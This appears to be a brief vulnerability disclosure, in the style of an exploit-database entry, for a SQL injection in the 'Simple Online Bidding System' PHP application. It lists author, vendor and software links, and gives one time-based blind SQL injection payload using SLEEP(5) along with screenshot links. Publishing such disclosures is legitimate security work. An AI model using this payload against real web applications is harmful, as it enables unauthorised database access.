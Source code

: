 # Simple Online Bidding System

**Exploit Title: Simple Online Bidding System SQL** Injection

**Date**: 4/08/2023

**Exploit Author:** y3thu

**Vendor Homepage:** [https://www.sourcecodester.com/users/tips23](https://www.sourcecodester.com/users/tips23)

**Software Link:** [https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html](https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html)

**Attack Vector:** WEB, Network

**Testeted on:** Kali Linux

**POC**

- **payload:**   AND (SELECT 5294 FROM (SELECT(SLEEP(5)))bgxK)
    
    ![Untitled](Simple%20Online%20Bidding%20System%20da2e9c6864d742d182100671c9d5abed/Untitled.png)
    
    ![Untitled](Simple%20Online%20Bidding%20System%20da2e9c6864d742d182100671c9d5abed/Untitled%201.png)